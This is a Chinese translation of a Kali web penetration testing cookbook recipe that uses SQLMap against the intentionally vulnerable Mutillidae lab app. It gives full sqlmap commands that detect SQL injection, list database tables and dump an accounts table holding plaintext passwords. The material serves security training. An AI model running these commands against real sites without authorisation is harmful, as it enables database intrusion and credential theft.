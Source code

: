 我们已经在上一个秘籍中看到，利用 SQL 注入是个繁琐的步骤。SQLMap  是个命令行工具，包含在 Kali 中，可以帮我们自动化检测和利用 SQL 注入。它带有多种技巧，并支持多种数据库。

这个秘籍中，我们会使用 SQLMap 来检测和利用 SQL 注入漏洞，并用它获得应用的用户名和密码。

### 操作步骤

1.  访问` http://192.168.56.102/mutillidae`。

2.  在 Mutillidae 的菜单中，访问`OWASP Top 10 | A1 – SQL Injection | SQLi Extract Data | User Info`。

3.  尝试任何用户名和密码，例如`user`和`password`之后点击`View Account Details`。

4.  登录会失败，但是我们对 URL 更感兴趣。访问地址栏并将完整的 URL 复制到剪贴板。

5.  现在，打开终端窗口，输入下列命令：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=user&password=password&user-info-php-submitbutton=View+Account+Details" -p username --current-user --currentdb
    ```
    
    你可以注意到，`-u`参数就是所复制的 URL 的值。`-p`告诉 SQLMap 我们打算在用户名参数中查找注入。一旦漏洞被利用，我们想让它获得当前数据库用户名和数据库的名称。我们只打算获得这两个值，因为我们只想判断这个 URL 的`username`参数是否存在 SQL 注入。
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-8-1.jpg)
    
6.  一旦 SQLMap 检测到应用所使用的 DBMS，它会询问我们是否跳过检测其它 DBMS 的步骤，以及是否打算包含所有特定系统的测试。即使它们在当前的配置等级和风险之外。这里，我们回答`Ues`来跳过其它系统，以及`No`来包含所有测试。

7.  一旦我们指定的参数中发现了漏洞，SQLMap 会询问我们是否打算测试其它参数，我们回答`No`，之后观察结果：

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-8-2.jpg)
    
8.  如果我们打开获得用户名和密码，类似于我们在上一个秘籍那样，我们需要知道含有这些信息的表名称。在终端中执行下列代码：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp --tables
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-8-3.jpg)
    
    SQLMap 会保存所执行的注入日志，所以第二次攻击会花费更少的时间。你可以看到，我们指定了要提取信息（nowasp）的数据库，并告诉 SQLMap 我们想获取这个数据库的表名称列表。
    
9.  `accounts`表使含有我们想要的信息的表之一。让我们转储内容：

    ```
    sqlmap -u "http://192.168.56.102/mutillidae/index.php?page=userinfo.php&username=test&password=test&user-info-php-submitbutton=View+Account+Details" -p username -D nowasp -T accounts --dump
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-8-4.jpg)
    
    我们现在拥有完整的用户表，并且我们可以看到，这里密码并没有加密，所以我们可以直接使用它们。
    
### 工作原理

SQLMap 会使用 SQL 注入字符串，对给定 URL 和数据的输入进行模糊测试，或者只针对`-p`选项中的特定目标，并且解释其响应来发现是否存在漏洞。不要模糊测试所有输入，最好使用 SQLMap 来利用我们已知存在的注入，并始终尝试缩小搜索过程，通过提供所有可用的信息，例如漏洞参数、DBMS 类型，以及其它。在所有可能性下寻找注入会花费大量时间，并在网络中产生非常大的流量。
